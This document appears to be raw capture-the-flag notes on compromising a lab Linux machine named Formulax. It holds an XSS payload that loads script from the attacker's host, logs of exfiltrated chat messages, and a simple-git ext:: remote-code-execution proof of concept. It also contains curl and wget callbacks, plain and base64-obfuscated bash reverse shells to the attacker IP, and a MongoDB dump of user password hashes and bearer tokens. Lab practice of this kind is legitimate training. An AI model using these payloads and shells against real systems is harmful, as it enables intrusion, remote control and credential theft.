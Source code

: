 ## linux machine Formulax

- [+] :	Target Ip 
   >>	10.10.11.6

## recon
```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
|_http-cors: GET POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

xss on contact form , cant grab cookie 

read chat.js and contact.js to craft malicious js and execute it 

<img src=x onerror="var script1=document.createElement('script'); script1.src='http://10.10.16.83:8000/payload.js';document.head.appendChild(script1);"/>



10.10.11.6 - - [22/Jul/2024 03:15:38] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [22/Jul/2024 03:15:38] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -
10.10.11.6 - - [22/Jul/2024 03:15:38] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [22/Jul/2024 03:15:38] "OPTIONS /?d=SGVsbG8sIEkgYW0gQWRtaW4uVGVzdGluZyB0aGUgQ2hhdCBBcHBsaWNhdGlvbg== HTTP/1.1" 501 - ## FOUND ADMIN HERE
10.10.11.6 - - [22/Jul/2024 03:15:38] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [22/Jul/2024 03:15:38] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgZm9yICBkZXYtZ2l0LWF1dG8tdXBkYXRlLmNoYXRib3QuaHRiIHRvIHdvcmsgcHJvcGVybHk= HTTP/1.1" 501 - ## FOUND SZBDOMAIN HERE -> (Write a script for  dev-git-auto-update.chatbot.htb to work properly)
10.10.11.6 - - [22/Jul/2024 03:15:38] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [22/Jul/2024 03:15:38] "OPTIONS /?d=V3JpdGUgYSBzY3JpcHQgdG8gYXV0b21hdGUgdGhlIGF1dG8tdXBkYXRl HTTP/1.1" 501 -
10.10.11.6 - - [22/Jul/2024 03:15:38] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [22/Jul/2024 03:15:38] "OPTIONS /?d=TWVzc2FnZSBTZW50Ojxicj5oaXN0b3J5 HTTP/1.1" 501 -
10.10.11.6 - - [22/Jul/2024 03:15:40] code 501, message Unsupported method ('OPTIONS')
10.10.11.6 - - [22/Jul/2024 03:15:40] "OPTIONS /?d=R3JlZXRpbmdzIS4gSG93IGNhbiBpIGhlbHAgeW91IHRvZGF5ID8uIFlvdSBjYW4gdHlwZSBoZWxwIHRvIHNlZSBzb21lIGJ1aWxkaW4gY29tbWFuZHM= HTTP/1.1" 501 -

- [+] :	 dev-git-auto-update.chatbot.htb 
   >>	Made with ❤ by Chatbot🤖 Using simple-git v3.14 
RCE 
>>https://security.snyk.io/vuln/SNYK-JS-SIMPLEGIT-3112221

poc eg :

		const simpleGit = require('simple-git')
		const git2 = simpleGit()
		git2.clone('ext::sh -c touch% /tmp/pwn% >&2', '/tmp/example-new-repo', ["-c", "protocol.ext.allow=always"]);

burp : 

"destinationUrl":"ext::sh -c curl% http://10.10.16.83:8000/rce"
l7wa 

webserver
10.10.11.6 - - [22/Jul/2024 03:44:13] code 404, message File not found
10.10.11.6 - - [22/Jul/2024 03:44:13] "GET /rce HTTP/1.1" 404 -


ext::sh -c curl% http://10.10.16.83:8000/$(ls or id or whatever but can execute /bin/bash here ) ( showe index.js with ls and www-data with id )

"ext::sh -c curl% http://10.10.16.83:8000/rev.sh"

ext::sh -c curl% http://10.10.16.83:8000/$(ls${IFS}-la)
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.6 - - [22/Jul/2024 22:54:52] code 404, message File not found
10.10.11.6 - - [22/Jul/2024 22:54:52] "GET /total HTTP/1.1" 404 -





ext::sh -c bash% ./rev.sh
ext::sh -c bash% chmod +x && ./rev.sh
ext::sh -c bash% -i >& /dev/tcp/10.10.16.83/9098 0>&1

bash -i >& /dev/tcp/10.10.16.83/4444 0>&1



ext::sh -c wget% http://localhost/$(echo${IFS}"YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44My82MzMzNiAwPiYxJwo="${IFS}|${IFS}base64${IFS}-d|bash)
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44My82MzMzNiAwPiYxJwo=

echo${IFS}"YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44My82MzMzNiAwPiYxJwo="${IFS}|${IFS}base64${IFS}-d|bash



www-data@formulax:~$ ls
app
automation
git-auto-update



[+] Users with console
frank_dorky:x:1002:1002:,,,:/home/frank_dorky:/bin/bash
kai_relay:x:1001:1001:Kai Relay,,,:/home/kai_relay:/bin/bash
librenms:x:999:999::/opt/librenms:/usr/bin/bash
root:x:0:0:root:/root:/bin/bash

/var/www/.npm/
Binary processes permissions
/var/www/.cache/puppeteer/chrome/linux-113.0.5672.63/chrome-linux64/chrome

root        2652  0.0  0.1   8912  5496 pts/0    S+   20:40   0:00 sudo /usr/bin/office.sh

/usr/bin/mongod --config /etc/mongod.conf



+] PATH
[i] Any writable folder in original PATH? (a new completed path will be exported)
/usr/lib/git-core:/usr/lib/git-core:/var/www/.nvm/versions/node/v20.2.0/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
New path exported: /usr/lib/git-core:/usr/lib/git-core:/var/www/.nvm/versions/node/v20.2.0/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin






MongoDB shell version v4.4.29
Build Info: {
    "version": "4.4.29",
    "gitVersion": "f4dda329a99811c707eb06d05ad023599f9be263",
    "openSSLVersion": "OpenSSL 1.1.1f  31 Mar 2020",
    "modules": [],
    "allocator": "tcmalloc",
    "environment": {
        "distmod": "ubuntu2004",
        "distarch": "x86_64",
        "target_arch": "x86_64"
    }
}
Found /etc/mongod.conf
storage:
  dbPath: /var/lib/mongodb
  journal:
    enabled: true
systemLog:
  destination: file
  logAppend: true
  path: /var/log/mongodb/mongod.log
net:
  port: 27017
  bindIp: 127.0.0.1
processManagement:
  timeZoneInfo: /usr/share/zoneinfo
  
  shell
  
  -
> show dbs
admin    0.000GB
config   0.000GB
local    0.000GB
testing  0.000GB
> use testing 
switched to db testing
> show collections
messages
users
> db.messages.find()
> db.messages.find(*)
uncaught exception: SyntaxError: expected expression, got '*' :
@(shell):1:17
> db.messages.find()
> exit
bye
www-data@formulax:/data/db$ ls -la locate ^C
www-data@formulax:/data/db$ ls -la $(mongo) 
ls: unrecognized option '---'
Try 'ls --help' for more information.
www-data@formulax:/data/db$ locate mongo
bash: locate: command not found
www-data@formulax:/data/db$ which mongo
/usr/bin/mongo
www-data@formulax:/data/db$ ls -la /usr/bin/mongo
-rwxr-xr-x 1 root root 53891224 Dec 19  2013 /usr/bin/mongo
www-data@formulax:/data/db$ @(shell):1:17



{ "_id" : "featureCompatibilityVersion", "version" : "4.4" }



> show tables
system.sessions
> db.system.sessions.find()
{ "_id" : { "id" : UUID("7f7653bd-8042-40ea-99f5-4c48d0963231"), "uid" : BinData(0,"47DEQpj8HBSa+/TImW+5JCeuQeRkm5NMpJWZG3hSuFU=") }, "lastUse" : ISODate("2024-07-23T22:04:03.127Z") }
{ "_id" : { "id" : UUID("44b820db-72db-48a4-9c37-30054b1c1aef"), "uid" : BinData(0,"47DEQpj8HBSa+/TImW+5JCeuQeRkm5NMpJWZG3hSuFU=") }, "lastUse" : ISODate("2024-07-23T22:04:03.127Z") }
{ "_id" : { "id" : UUID("d90a0454-c53c-413e-91fd-d461d54dba7a"), "uid" : BinData(0,"47DEQpj8HBSa+/TImW+5JCeuQeRkm5NMpJWZG3hSuFU=") }, "lastUse" : ISODate("2024-07-23T22:04:03.127Z") }




```log
		

______________
```


{ "_id" : ObjectId("648874de313b8717284f457c"), "name" : "admin", "email" : "admin@chatbot.htb", "password" : "$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.", "terms" : true, "value" : true, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NDg4NzRkZTMxM2I4NzE3Mjg0ZjQ1N2MiLCJpYXQiOjE3MjE3NzI0Nzh9.itgJPQZFpFLyZBSPflKxq4mZJsXpJe_oO8Rr60qBzRg", "__v" : 0 }
{ "_id" : ObjectId("648874de313b8717284f457d"), "name" : "frank_dorky", "email" : "frank_dorky@chatbot.htb", "password" : "$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6", "terms" : true, "value" : true, "authorization_token" : " ", "__v" : 0 }
{ "_id" : ObjectId("66a0281b57cb541c7b42b3b2"), "name" : "test", "email" : "test@test.com", "password" : "$2b$10$Oz8WPh/pd7U8YRLmDIMa5.2ui1vyPqvwzvEXZP0dhC74MKRIX7AU6", "terms" : true, "value" : false, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NmEwMjgxYjU3Y2I1NDFjN2I0MmIzYjIiLCJpYXQiOjE3MjE3NzIwNzB9.9o4rELKOv3xiGKbRnKg8uej1-P3VRBmAT1LIN8qoEFE", "__v" : 0 }



hashes:

admin:$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC
frank_dorky:$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6

test ->mine 
- [+] :	 
   >>	
- [+] :	 
   >>	
- [+] :	 
   >>	




